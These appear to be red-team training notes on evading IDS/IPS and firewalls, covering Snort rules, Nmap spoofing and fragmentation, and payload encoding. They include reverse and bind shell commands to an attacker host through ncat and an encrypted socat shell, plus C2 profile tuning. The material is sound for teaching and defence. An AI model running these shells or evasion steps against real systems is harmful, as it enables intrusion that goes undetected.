

# Network Security Evasion

## Network Security Solutions

An Intrusion Detection System ([IDS](../common.md#ids)) is a system that detects network or system intrusions. One analogy that comes to mind is a guard watching live feeds from different security cameras. He can spot a theft, but he cannot stop it by himself. However, if this guard can contact another guard and ask them to stop the robber, detection turns into prevention. An Intrusion Detection and Prevention System (IDPS) or simply Intrusion Prevention System ([IPS](../common.md#ips)) is a system that can detect and prevent intrusions.

Understanding the difference between detection and prevention is essential. Snort is a network intrusion detection and intrusion prevention system. Consequently, Snort can be set up as an IDS or an IPS. For Snort to function as an IPS, it needs some mechanism to block (`drop`) offending connections. This capability requires Snort to be set up as `inline` and to bridge two or more network cards.

As a signature-based network IDS, Snort is shown in the figure below.


The following figure shows how Snort can be configured as an IPS if set up inline.


IDS setups can be divided based on their location in the network into:

1. Host-based IDS ([HIDS](../common.md#hids))
2. Network-based IDS ([NIDS](../common.md#nids))

The host-based IDS (HIDS) is installed on an OS along with the other running applications. This setup will give the HIDS the ability to monitor the traffic going in and out of the host; moreover, it can monitor the processes running on the host.

The network-based IDS (NIDS) is a dedicated appliance or server to monitor the network traffic. The NIDS should be connected so that it can monitor all the network traffic of the network or VLANs we want to protect. This can be achieved by connecting the NIDS to a monitor port on the switch. The NIDS will process the network traffic to detect malicious traffic.

In the figure below, we use two red circles to show the difference in the coverage of a HIDS versus a NIDS.


### IDS Engine Types

We can classify network traffic into:

1. Benign traffic: This is the usual traffic that we expect to have and don't want the IDS to alert us about.
2. Malicious traffic: This is abnormal traffic that we don't expect to see under normal conditions and consequently want the IDS to detect it.

In the same way that we can classify network traffic, we can also classify host activity. The IDS detection engine is either built around detecting malicious traffic and activity or around recognizing normal traffic and activity. Recognizing “normal” makes it easy to detect any deviation from normal.

Consequently, the detection engine of an IDS can be:

1. **Signature-based**: A signature-based IDS requires full knowledge of malicious (or unwanted) traffic. In other words, we need to explicitly feed the signature-based detection engine the characteristics of malicious traffic. Teaching the IDS about malicious traffic can be achieved using explicit rules to match against.
2. **Anomaly-based**: This requires the IDS to have knowledge of what regular traffic looks like. In other words, we need to “teach” the IDS what normal is so that it can recognize what is **not** normal. Teaching the IDS about normal traffic, i.e., baseline traffic can be achieved using machine learning or manual rules.

Put in another way, signature-based IDS recognizes malicious traffic, so everything that is not malicious is considered benign (normal). This approach is commonly found in anti-virus software, which has a database of known virus signatures. Anything that matches a signature is detected as a virus.

An anomaly-based IDS recognizes normal traffic, so anything that deviates from normal is considered malicious. This approach is more similar to how human beings perceive things; you have certain expectations for speed, performance, and responsiveness when you start your web browser. In other words, you know what “normal” is for your browser. If suddenly you notice that your web browser is too sluggish or unresponsive, you will know that something is wrong. In other words, you knew it when your browser's performance deviated from normal.

---

### IDS/IPS Rule Triggering

Each IDS/IPS has a certain syntax to write its rules. For example, Snort uses the following format for its rules: `Rule Header (Rule Options)`, where **Rule Header** constitutes:

1. Action: Examples of action include `alert`, `log`, `pass`, `drop`, and `reject`.
2. Protocol: `TCP`, `UDP`, `ICMP`, or `IP`.
3. Source IP/Source Port: `!10.10.0.0/16 any` refers to everything not in the class B subnet `10.10.0.0/16`.
4. Direction of Flow: `->` indicates left (source) to right (destination), while `<>` indicates bi-directional traffic.
5. Destination IP/Destination Port: `10.10.0.0/16 any` to refer to class B subnet `10.10.0.0/16`.

Below is an example rule to `drop` all ICMP traffic passing through Snort IPS:

```bash
drop icmp any any -> any any (msg: "ICMP Ping Scan"; dsize:0; sid:1000020; rev: 1;)
```

The rule above instructs the Snort IPS to drop any packet of type ICMP from any source IP address (on any port) to any destination IP address (on any port). The message to be added to the logs is “ICMP Ping Scan.”

Let's consider a hypothetical case where a vulnerability is discovered in our web server. This vulnerability lies in how our web server handles HTTP POST method requests, allowing the attacker to run system commands.

Let's consider the following “naive” approach. We want to create a Snort rule that detects the term `ncat` in the payload of the traffic exchanged with our webserver to learn how people exploit this vulnerability.

```bash
alert tcp any any <> any 80 (msg: "Netcat Exploitation"; content:"ncat"; sid: 1000030; rev:1;)
```

The rule above inspects the content of the packets exchanged with port 80 for the string `ncat`. Alternatively, you can choose to write the content that Snort will scan for in hexadecimal format. `ncat` in ASCII is written as `6e 63 61 74` in hexadecimal and it is encapsulated as a string by 2 pipe characters `|`.

```bash
alert tcp any any <> any 80 (msg: "Netcat Exploitation"; content:"|6e 63 61 74|"; sid: 1000031; rev:1;)
```

We can further refine it if we expect to see it in HTTP POST requests. Note that `flow:established` tells the Snort engine to look at streams started by a TCP 3-way handshake (established connections).

```bash
alert tcp any any <> any 80 (msg: "Netcat Exploitation"; flow:established,to_server; content:"POST"; nocase; http_method; content:"ncat"; nocase; sid:1000032; rev:1;)
```
If ASCII logging is chosen, the logs would be similar to the two alerts shown next.

```bash
[**] [1:1000031:1] Netcat Exploitation [**]
[Priority: 0] 
01/14-12:51:26.717401 10.14.17.226:45480 -> 10.10.112.168:80
TCP TTL:63 TOS:0x0 ID:34278 IpLen:20 DgmLen:541 DF
***AP*** Seq: 0x26B5C2F  Ack: 0x0  Win: 0x0  TcpLen: 32

[**] [1:1000031:1] Netcat Exploitation [**]
[Priority: 0] 
01/14-12:51:26.717401 10.14.17.226:45480 -> 10.10.112.168:80
TCP TTL:63 TOS:0x0 ID:34278 IpLen:20 DgmLen:541 DF
***AP*** Seq: 0x26B5C2F  Ack: 0xF1090882  Win: 0x3F  TcpLen: 32
TCP Options (3) => NOP NOP TS: 2244530364 287085341
```

There are a few points to make about signature-based IDS and its rules. If the attacker made even the slightest changes to avoid using `ncat` verbatim in their payload, the attack would go unnoticed. As we can conclude, a signature-based IDS or IPS is limited to how well-written and updated its signatures (rules) are. 

---

### Evasion via Protocol Manipulation

Evading a signature-based IDS/IPS requires that you manipulate your traffic so that it does not match any IDS/IPS signatures. Here are four general approaches you might consider to evade IDS/IPS systems.

1. Evasion via Protocol Manipulation
2. Evasion via Payload Manipulation
3. Evasion via Route Manipulation
4. Evasion via Tactical Denial of Service ([DoS](../common.md#dos))


Evasion via protocol manipulation includes:

- Relying on a different protocol
- Manipulating (Source) TCP/UDP port
- Using session splicing (IP packet fragmentation)
- Sending invalid packets


<span style="font-size: 23px;">**Rely on a Different Protocol**</span>

The IDS/IPS system might be configured to block certain protocols and allow others. For instance, you might consider using UDP instead of TCP or rely on HTTP instead of DNS to deliver an attack or exfiltrate data. You can use the knowledge you have gathered about the target and the applications necessary for the target organization to design your attack. For instance, if web browsing is allowed, it usually means that protected hosts can connect to ports 80 and 443 unless a local proxy is used. In one case, the client relied on Google services for their business, so the attacker used Google web hosting to conceal his malicious site. Unfortunately, it is not a one-size-fits-all; moreover, some trial and error might be necessary as long as you don't create too much noise.

We have an IPS set to block DNS queries and HTTP requests in the figure below. In particular, it enforces the policy where local machines cannot query external DNS servers but should instead query the local DNS server; moreover, it enforces secure HTTP communications. It is relatively permissive when it comes to HTTPS. In this case, using HTTPS to tunnel traffic looks like a promising approach to evade the IPS.


Consider the case where you are using [Ncat](https://nmap.org/ncat/). Ncat, by default, uses a TCP connection; however, you can get it to use UDP using the option `-u`.

- To listen using TCP, just issue `ncat -lvnp PORT_NUM` where port number is the port you want to listen to.
- to connect to an Ncat instance listening on a TCP port, you can issue `ncat TARGET_IP PORT_NUM`

Note that:

- `-l` tells `ncat` to listen for incoming connections
- `-v` gets more verbose output as `ncat` binds to a source port and receives a connection
- `-n` avoids resolving hostnames
- `-p` specifies the port number that `ncat` will listen on

As already mentioned, using `-u` will move all communications over UDP.

- To listen using UDP, just issue `ncat -ulvnp PORT_NUM` where port number is the port you want to listen to. Note that unless you add `-u`, `ncat` will use TCP by default.
- To connect to an Ncat instance listening on a UDP port, you can issue `nc -u TARGET_IP PORT_NUM`

Consider the following two examples:

- Running `ncat -lvnp 25` on the attacker system and connecting to it will give the impression that it is a usual TCP connection with an SMTP server, unless the IDS/IPS provides deep packet inspection (DPI).
- Executing `ncat -ulvnp 162` on the attacker machine and connecting to it will give the illusion that it is a regular UDP communication with an SNMP server unless the IDS/IPS supports DPI.

<span style="font-size: 23px;">**Manipulate (Source) TCP/UDP Port**</span>

Generally speaking, the TCP and UDP source and destination ports are inspected even by the most basic security solutions. Without deep packet inspection, the port numbers are the primary indicator of the service used. In other words, network traffic involving TCP port 22 would be interpreted as SSH traffic unless the security solution can analyze the data carried by the TCP segments.

Depending on the target security solution, you can make your port scanning traffic resemble web browsing or DNS queries. If you are using Nmap, you can add the option `-g PORT_NUMBER` (or `--source-port PORT_NUMBER`) to make Nmap send all its traffic from a specific source port number.

While scanning a target, use `nmap -sS -Pn -g 80 -F MACHINE_IP` to make the port scanning traffic appear to be exchanged with an HTTP server at first glance.

If you are interested in scanning UDP ports, you can use `nmap -sU -Pn -g 53 -F MACHINE_IP` to make the traffic appear to be exchanged with a DNS server.


Consider the case where you are using Ncat. You can try to camouflage the traffic as if it is some DNS traffic.

- On the attacker machine, if you want to use Ncat to listen on UDP port 53, as a DNS server would, you can use `ncat -ulvnp 53`.
- On the target, you can make it connect to the listening server using `ncat -u ATTACKER_IP 53`.

Alternatively, you can make it appear more like web traffic where clients communicate with an HTTP server.

- On the attacker machine, to get Ncat to listen on TCP port 80, like a benign web server, you can use `ncat -lvnp 80`.
- On the target, connect to the listening server using `nc ATTACKER_IP 80`.


<span style="font-size: 23px;">**Use Session Splicing (IP Packet Fragmentation)**</span>

Another approach possible in IPv4 is IP packet fragmentation, i.e., session splicing. The assumption is that if you break the packet(s) related to an attack into smaller packets, you will avoid matching the IDS signatures. If the IDS is looking for a particular stream of bytes to detect the malicious payload, divide your payload among multiple packets. Unless the IDS reassembles the packets, the rule won’t be triggered.

Nmap offers a few options to fragment packets. You can add:

- `-f` to set the data in the IP packet to 8 bytes.
- `-ff` to limit the data in the IP packet to 16 bytes at most.
- `--mtu SIZE` to provide a custom size for data carried within the IP packet. The size should be a multiple of 8.

Suppose you want to force all your packets to be fragmented into specific sizes. In that case, you should consider using a program such as [Fragroute](https://www.monkey.org/~dugsong/fragroute/). `fragroute` can be set to read a set of rules from a given configuration file and applies them to incoming packets. For simple IP packet fragmentation, it would be enough to use a configuration file with `ip_frag SIZE` to fragment the IP data according to the provided size. The size should be a multiple of 8.

For example, you can create a configuration file `fragroute.conf` with one line, `ip_frag 16`, to fragment packets where IP data fragments don’t exceed 16 bytes. Then you would run the command `fragroute -f fragroute.conf HOST`. The host is the destination to which we would send the fragmented packets it.

<span style="font-size: 23px;">**Sending Invalid Packets**</span>

Generally speaking, the response of systems to valid packets tends to be predictable. However, it can be unclear how systems would respond to invalid packets. For instance, an IDS/IPS might process an invalid packet, while the target system might ignore it. The exact behavior would require some experimentation or inside knowledge.

Nmap makes it possible to create invalid packets in a variety of ways. In particular, two common options would be to scan the target using packets that have:

- Invalid TCP/UDP checksum
- Invalid TCP flags

Nmap lets you send packets with a wrong TCP/UDP checksum using the option `--badsum`. An incorrect checksum indicates that the original packet has been altered somewhere across its path from the sending program.

Nmap also lets you send packets with custom TCP flags, including invalid ones. The option `--scanflags` lets you choose which flags you want to set.

- `URG` for Urgent
- `ACK` for Acknowledge
- `PSH` for Push
- `RST` for Reset
- `SYN` for Synchronize
- `FIN` for Finish

For instance, if you want to set the flags Synchronize, Reset, and Finish simultaneously, you can use `--scanflags SYNRSTFIN`, although this combination might not be beneficial for your purposes.

If you want to craft your packets with custom fields, whether valid or invalid, you might want to consider a tool such as `hping3`. We will list a few example options to give you an idea of packet crafting using `hping3`.

- `-t` or `--ttl` to set the Time to Live in the IP header
- `-b` or `--badsum` to send packets with a bad UDP/TCP checksum
- `-S`, `-A`, `-P`, `-U`, `-F`, `-R` to set the TCP SYN, ACK, PUSH, URG, FIN, and RST flags, respectively

---

### Evasion via Payload Manipulation


<span style="font-size: 23px;">**Obfuscate and Encode the Payload**</span>

Because the IDS rules are very specific, you can make minor changes to avoid detection. The changes include adding extra bytes, obfuscating the attack data, and encrypting the communication.

Consider the command `ncat -lvnp 1234 -e /bin/bash`, where `ncat` will listen on TCP port 1234 and connect any incoming connection to the Bash shell. There are a few common transformations such as Base64, URL encoding, and Unicode escape sequence that you can apply to your command to avoid triggering IDS/IPS signatures.

<span style="font-size: 23px;">**Encode to Base64 format**</span>

```bash
┌──(root㉿kali)-[~]
└─# base64 input.txt                                  
bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaAo=
                                                                                                                              
┌──(root㉿kali)-[~]
└─# echo  bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaAo= | base64 -d
ncat -lvnp 1234 -e /bin/bash
```

<span style="font-size: 23px;">**URL Encoding**</span>

URL encoding converts certain characters to the form %HH, where HH is the hexadecimal ASCII representation. English letters, period, dash, and underscore are not affected. You can refer to [section 2.4 in RFC 3986](https://datatracker.ietf.org/doc/html/rfc3986#section-2.4) for more information.

```bash
apt install gridsite-clients
```

```bash
┌──(root㉿kali)-[~]
└─# urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
```

<span style="font-size: 23px;">**Use Escaped Unicode**</span>

[CyberChef](https://gchq.github.io/CyberChef/)

<span style="font-size: 23px;">**Encrypt the Communication Channel**</span>

Because an IDS/IPS won’t inspect encrypted data, an attacker can take advantage of encryption to evade detection. Unlike encoding, encryption requires an encryption key.

One direct approach is to create the necessary encryption key on the attacker’s system and set **socat** to use the encryption key to enforce encryption as it listens for incoming connections. An encrypted reverse shell can be carried out in three steps:

1. Create the key
2. Listen on the attacker’s machine
3. Connect to the attacker’s machine

**Firstly**, On the AttackBox or any Linux system, we can create the key using `openssl`.

```bash
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
```
The arguments in the above command are:

- `req` indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
- `-x509` specifies that we want an X.509 certificate
- `-newkey rsa:4096` creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as `-newkey rsa:2048`.)
- `-days 365` shows that the validity of our certificate will be one year
- `-subj` sets data, such as organization and country, via the command-line.
- `-nodes` simplifies our command and does not encrypt the private key
- `-keyout PRIVATE_KEY` specifies the filename where we want to save our private key
- `-out CERTIFICATE` specifies the filename to which we want to write the certificate request

The above command returns:

- Private key: `thm-reverse.key`
- Certificate: `thm-reverse.crt`

The Privacy Enhanced Mail (PEM) `.pem` file requires the concatenation of the private key `.key` and the certificate `.crt` files. We can use `cat` to create our PEM file from the two files that we have just created:

```bash
cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
```

**Secondly**, with the PEM file ready, we can start listening while using the key for encrypting the communication with the client.

```bash
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
```
If you are not familiar with socat, the options that we used are:

- `-d -d` provides some debugging data (fatal, error, warning, and notice messages)
- `OPENSSL-LISTEN:PORT_NUM` indicates that the connection will be encrypted using OPENSSL
- `cert=PEM_FILE` provides the PEM file (certificate and private key) to establish the encrypted connection
- `verify=0` disables checking peer’s certificate
- `fork` creates a sub-process to handle each new connection.

**Thirdly**, on the victim system

```bash
socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash
```
**Note** that the EXEC invokes the specified program.

<span style="font-size: 23px;">**Modify the data**</span>

Consider the simple case where you want to use Ncat to create a bind shell. The following command `ncat -lvnp 1234 -e /bin/bash` tells `ncat` to listen on TCP port 1234 and bind Bash shell to it. If you want to detect packets containing such commands, you need to think of something specific to match the signature but not too specific.

- Scanning for `ncat -lvnp` can be easily evaded by changing the order of the flags.
- On the other hand, inspecting the payload for `ncat -` can be evaded by adding an extra white space, such as `ncat  -` which would still run correctly on the target system.
- If the IDS is looking for `ncat`, then simple changes to the original command won’t evade detection. We need to consider more sophisticated approaches depending on the target system/application. One option would be to use a different command such as `nc` or `socat`. Alternatively, you can consider a different encoding if the target system can process it properly.

---

### Evasion via Route Manipulation


<span style="font-size: 23px;">**Relying on Source Routing**</span>

In many cases, you can use source routing to force the packets to use a certain route to reach their destination. Nmap provides this feature using the option `--ip-options`. Nmap offers loose and strict routing:

- Loose routing can be specified using `L`. For instance, `--ip-options "L 10.10.10.50 10.10.50.250"` requests that your scan packets are routed through the two provided IP addresses.
- Strict routing can be specified using `S`. Strict routing requires you to set every hop between your system and the target host. For instance, `--ip-options "S 10.10.10.1 10.10.20.2 10.10.30.3"` specifies that the packets go via these three hops before reaching the target host.

<span style="font-size: 23px;">**Using Proxy Servers**</span>

The use of [proxy](../common.md#proxy) servers can help hide your source. Nmap offers the option `--proxies` that takes a list of a comma-separated list of proxy URLs. Each URL should be expressed in the format `proto://host:port`. Valid protocols are HTTP and SOCKS4; moreover, authentication is not currently supported.

Consider the following example. Instead of running `nmap -sS 10.10.90.83`, you would edit your Nmap command to something like `nmap -sS HTTP://PROXY_HOST1:8080,SOCKS4://PROXY_HOST2:4153 10.10.90.83`. This way, you would make your scan go through HTTP proxy host1, then SOCKS4 proxy host2, before reaching your target. It is important to note that finding a reliable proxy requires some trial and error before you can rely on it to hide your Nmap scan source.

If you use your web browser to connect to the target, it would be a simple task to pass your traffic via a proxy server. Other network tools usually provide their own proxy settings that you can use to hide your traffic source.

---

### Evasion via Tactical DoS


An IDS/IPS requires a high processing power as the number of rules grows and the network traffic volume increases. Moreover, especially in the case of IDS, the primary response is logging traffic information matching the signature. Consequently, you might find it beneficial if you can:

- Create a huge amount of benign traffic that would simply overload the processing capacity of the IDS/IPS.
- Create a massive amount of not-malicious traffic that would still make it to the logs. This action would congest the communication channel with the logging server or exceed its disk writing capacity.

It is also worth noting that the target of your attack can be the IDS operator. By causing a vast number of false positives, you can cause operator fatigue against your “adversary.”

---

### C2 and IDS/IPS Evasion

Pentesting frameworks, such as Cobalt Strike and Empire, offer malleable Command and Control (C2) profiles. These profiles allow various fine-tuning to evade IDS/IPS systems. If you are using such a framework, it is worth creating a custom profile instead of relying on a default one. Examples variables you can control include the following:

- **User-Agent**: The tool or framework you are using can expose you via its default-set user-agent. Hence, it is always important to set the user-agent to something innocuous and test to confirm your settings.
- **Sleep Time**: The sleep time allows you to control the callback interval between beacon check-ins. In other words, you can control how often the infected system will attempt to connect to the control system.
- **Jitter**: This variable lets you add some randomness to the sleep time, specified by the jitter percentage. A jitter of 30% results in a sleep time of ±30% to further evade detection.
- `SSL Certificate`: Using your authentic-looking SSL certificate will significantly improve your chances of evading detection. It is a very worthy investment of time.
- **DNS Beacon**: Consider the case where you are using DNS protocol to exfiltrate data. You can fine-tune DNS beacons by setting the DNS servers and the hostname in the DNS query. The hostname will be holding the exfiltrated data.

This [CobaltStrike Guideline Profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile) shows how a profile is put together.

---

### Next-Gen Security 

Next-Generation Network IPS (NGNIPS) has the following five characteristics according to [Gartner](https://www.gartner.com/en/documents/2390317-next-generation-ips-technology-disrupts-the-ips-market):

1. Standard first-generation IPS capabilities: A next-generation network IPS should achieve what a traditional network IPS can do.
2. Application awareness and full-stack visibility: Identify traffic from various applications and enforce the network security policy. An NGNIPS must be able to understand up to the application layer.
3. Context-awareness: Use information from sources outside of the IPS to aid in blocking decisions.
4. Content awareness: Able to inspect and classify files, such as executable programs and documents, in inbound and outbound traffic.
5. Agile engine: Support upgrade paths to benefit from new information feeds.

Because a Next-Generation Firewall (NGFW) provides the same functionality as an IPS, it seems that the term NGNIPS is losing popularity for the sake of NGFW. 

## Firewalls

A firewall is software or hardware that monitors the network traffic and compares it against a set of rules before passing or blocking it. One simple analogy is a guard or gatekeeper at the entrance of an event. This gatekeeper can check the ID of individuals against a set of rules before letting them enter (or leave).

### IP packet and TCP segment

Before we go into more details about firewalls, it is helpful to remember the contents of an IP packet and TCP segment. The following figure shows the fields we expect to find in an IP header. If the figure below looks complicated, you don’t need to worry as we are only interested in a few fields. Different types of firewalls are capable of inspecting various packet fields; however, the most basic firewall should be able to inspect at least the following fields:

- Protocol
- Source Address
- Destination Address


Depending on the protocol field, the data in the IP datagram can be one of many options. Three common protocols are:

- TCP
- UDP
- ICMP

In the case of TCP or UDP, the firewall should at least be able to check the TCP and UDP headers for:

- Source Port Number
- Destination Port Number

The TCP header is shown in the figure below. We notice that there are many fields that the firewall might or might not be able to analyze; however, even the most limited of firewalls should give the firewall administrator control over allowed or blocked source and destination port numbers.


[Service Name and Transport Protocol Port Number Registry](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml)

---

### Types of Firewalls

There are multiple ways to classify firewalls. One way to classify firewalls would be whether they are independent appliances.

1. **Hardware Firewall (appliance firewall)**: As the name implies, an appliance firewall is a separate piece of hardware that the network traffic has to go through. Examples include Cisco ASA (Adaptive Security Appliance), WatchGuard Firebox, and Netgate pfSense Plus appliance.
2. **Software firewall**: This is a piece of software that comes bundled with the OS, or you can install it as an additional service. MS Windows has a built-in firewall, Windows Defender Firewall, that runs along with the other OS services and user applications. Another example is Linux iptables and firewalld.

We can also classify firewalls into:

1. **Personal firewall**: A personal firewall is designed to protect a single system or a small network, for example, a small number of devices and systems at a home network. Most likely, you are using a personal firewall at home without paying much attention to it. For instance, many wireless access points designed for homes have a built-in firewall. One example is Bitdefender BOX. Another example is the firewall that comes as part of many wireless access points and home routers from Linksys and Dlink.
2. **Commercial firewall**: A commercial firewall protects medium-to-large networks. Consequently, you would expect higher reliability and processing power, in addition to supporting a higher network bandwidth. Most likely, you are going through such a firewall when accessing the Internet from within your university or company.

From the red team perspective, the most crucial classification would be based on the firewall inspection abilities. It is worth thinking about the firewall abilities in terms of the ISO/OSI layers shown in the figure below. Before we classify firewalls based on their abilities, it is worthy of remembering that firewalls focus on layers 3 and 4 and, to a lesser extent, layer 2. Next-generation firewalls are also designed to cover layers 5, 6, and 7. The more layers a firewall can inspect, the more sophisticated it gets and the more processing power it needs.


Based on firewall abilities, we can list the following firewall types:

- **Packet-Filtering Firewall**: Packet-filtering is the most basic type of firewall. This type of firewall inspects the protocol, source and destination IP addresses, and source and destination ports in the case of TCP and UDP datagrams. It is a stateless inspection firewall.
- **Circuit-Level Gateway**: In addition to the features offered by the packet-filtering firewalls, circuit-level gateways can provide additional capabilities, such as checking TCP three-way-handshake against the firewall rules.
- **Stateful Inspection Firewall**: Compared to the previous types, this type of firewall gives an additional layer of protection as it keeps track of the established TCP sessions. As a result, it can detect and block any TCP packet outside an established TCP session.
- **Proxy Firewall**: A proxy firewall is also referred to as Application Firewall (AF) and Web Application Firewall (WAF). It is designed to masquerade as the original client and requests on its behalf. This process allows the proxy firewall to inspect the contents of the packet payload instead of being limited to the packet headers. Generally speaking, this is used for web applications and does not work for all protocols.
- **Next-Generation Firewall (NGFW)**: NGFW offers the highest firewall protection. It can practically monitor all network layers, from OSI Layer 2 to OSI Layer 7. It has application awareness and control. Examples include the Juniper SRX series and Cisco Firepower.
- **Cloud Firewall or Firewall as a Service (FWaaS)**: FWaaS replaces a hardware firewall in a cloud environment. Its features might be comparable to NGFW, depending on the service provider; however, it benefits from the scalability of cloud architecture. One example is Cloudflare Magic Firewall, which is a network-level firewall. Another example is Juniper vSRX; it has the same features as an NGFW but is deployed in the cloud. It is also worth mentioning AWS WAF for web application protection and AWS Shield for DDoS protection.

---

### Evasion via Controlling the Source MAC/IP/Port

When scanning a host behind a firewall, the firewall will usually detect and block port scans. This situation would require you to adapt your network and port scan to evade the firewall. A network scanner like Nmap provides few features to help with such a task. In this room, we group Nmap techniques into three groups:

1. Evasion via controlling the source MAC/IP/Port
2. Evasion via fragmentation, MTU, and data length
3. Evasion through modifying header fields

Nmap allows you to hide or spoof the source as you can use:

1. Decoy(s)
2. Proxy
3. Spoofed MAC Address
4. Spoofed Source IP Address
5. Fixed Source Port Number

*Nmap stealth (SYN) scan*
```bash
nmap -sS -Pn -F MACHINE_IP
```


We can dive into all the details embedded into each packet; however, for this exercise, we would like to note the following:

- Our IP address `10.14.17.226` has generated and sent around 200 packets. The `-F` option limits the scan to the top 100 common ports; moreover, each port is sent a second SYN packet if it does not reply to the first one.
- The source port number is chosen at random. In the screenshot, you can see it is 37710.
- The total length of the IP packet is **44** bytes. There are **20** bytes for the **IP header**, which leaves **24** bytes for the **TCP header**. No data is sent via TCP.
- The Time to Live (TTL) is 42.
- No errors are introduced in the checksum.


<span style="font-size: 23px;">**Decoy(s)**</span>

Hide your scan with decoys. Using decoys makes your IP address mix with other “decoy” IP addresses. Consequently, it will be difficult for the firewall and target host to know where the port scan is coming from. Moreover, this can exhaust the blue team investigating each source IP address.

```bash
nmap -sS -Pn -D 10.10.10.1,10.10.10.2,ME -F MACHINE_IP
```
- `-D` option, you can add decoy source IP addresses to confuse the target

**Note** that if you omit the `ME` entry in the scan command, Nmap will put your real IP address, i.e. `ME`, in a random position.

*Nmap will choose two random source IP addresses to use as decoys*
```bash
nmap -sS -Pn -D RND,RND,ME -F MACHINE_IP
```
<span style="font-size: 23px;">**Proxy**</span>

Use an HTTP/SOCKS4 proxy. Relaying the port scan via a proxy helps keep your IP address unknown to the target host.

```bash
nmap -sS -Pn --proxies PROXY_URL -F MACHINE_IP
```
- `--proxies PROXY_URL` allows you to keep your IP address hidden while the target logs the IP address of the proxy server

**Note** that you can chain proxies using a comma-separated list.

<span style="font-size: 23px;">**Spoofed MAC Address**</span>

Spoof the source MAC address. Nmap allows you to spoof your MAC address using the option `--spoof-mac MAC_ADDRESS`. This technique is tricky; spoofing the MAC address works only if your system is on the same network segment as the target host. The target system is going to reply to a spoofed MAC address. If you are not on the same network segment, sharing the same Ethernet, you won’t be able to capture and read the responses. It allows you to exploit any trust relationship based on MAC addresses. Moreover, you can use this technique to hide your scanning activities on the network. For example, you can make your scans appear as if coming from a network printer.

<span style="font-size: 23px;">**Spoofed IP Address**</span>

Spoof the source IP address. Nmap lets you spoof your IP address using `-S IP_ADDRESS`. Spoofing the IP address is useful if your system is on the same subnetwork as the target host; otherwise, you won’t be able to read the replies sent back. The reason is that the target host will reply to the spoofed IP address, and unless you can capture the responses, you won’t benefit from this technique. Another use for spoofing your IP address is when you control the system that has that particular IP address. Consequently, if you notice that the target started to block the spoofed IP address, you can switch to a different spoofed IP address that belongs to a system that you also control. This scanning technique can help you maintain stealthy existence; moreover, you can use this technique to exploit trust relationships on the network based on IP addresses.

<span style="font-size: 23px;">**Fixed Source Port Number**</span>

Use a specific source port number. Scanning from one particular source port number can be helpful if you discover that the firewalls allow incoming packets from particular source port numbers, such as port 53 or 80. Without inspecting the packet contents, packets from source TCP port 80 or 443 look like packets from a web server, while packets from UDP port 53 look like responses to DNS queries. You can set your port number using `-g` or `--source-port` options.

```bash
nmap -sS -Pn -g 8080 -F MACHINE_IP
```
---

### Evasion via Forcing Fragmentation, MTU, and Data Length

You can control the packet size as it allows you to:

- Fragment packets, optionally with given [MTU](../common.md#mtu). If the firewall, or the IDS/IPS, does not reassemble the packet, it will most likely let it pass. Consequently, the target system will reassemble and process it.
- Send packets with specific data lengths.

<span style="font-size: 23px;">**Fragment Your Packets with 8 Bytes of Data**</span>

One easy way to fragment your packets would be to use the `-f` option. This option will fragment the IP packet to carry only 8 bytes of data. As mentioned earlier, running a Nmap TCP port scan means that the IP packet will hold 24 bytes, the TCP header. If you want to limit the IP data to 8 bytes, the 24 bytes of the TCP header will be divided across 3 IP packets.

```bash
nmap -sS -Pn -f -F MACHINE_IP
```

<span style="font-size: 23px;">**Fragment Your Packets with 16 Bytes of Data**</span>

```bash
nmap -sS -Pn -ff -F MACHINE_IP
```
<span style="font-size: 23px;">**Fragment Your Packets According to a Set MTU**</span>

```bash
nmap -sS -Pn --mtu 8 -F MACHINE_IP
```
In Nmap, `--mtu` VALUE specifies the number of bytes per IP packet. In other words, the IP header size is not included. The value set for MTU must always be a **multiple of 8**.

**Note** that the Maximum Transmission Unit (MTU) indicates the maximum packet size that can pass on a certain link-layer connection. For instance, Ethernet has an MTU of 1500, meaning that the largest IP packet that can be sent over an Ethernet (link layer) connection is 1500 bytes. Please don’t confuse this MTU with the --mtu in Nmap options.

<span style="font-size: 23px;">**Generate Packets with Specific Length**</span>

In some instances, you might find out that the size of the packets is triggering the firewall or the IDS/IPS to detect and block you. If you ever find yourself in such a situation, you can make your port scanning more evasive by setting a specific length. You can set the length of data carried within the IP packet using `--data-length` VALUE. Again, remember that the length should be a multiple of 8.

```bash
nmap -sS -Pn --data-length 64 -F MACHINE_IP
```
each TCP segment will be padded with **random data** till its length is 64 bytes.

---

### Evasion via Modifying Header Fields

Nmap allows you to control various header fields that might help evade the firewall. You can:

- Set IP time-to-live
- Send packets with specified IP options
- Send packets with a wrong TCP/UDP checksum

<span style="font-size: 23px;">**Set TTL**</span>

```bash
nmap -sS -Pn --ttl 81 -F 10.10.50.72
```
- `-ttl VALUE` to set the [TTL](../common.md#ttl) to a custom value

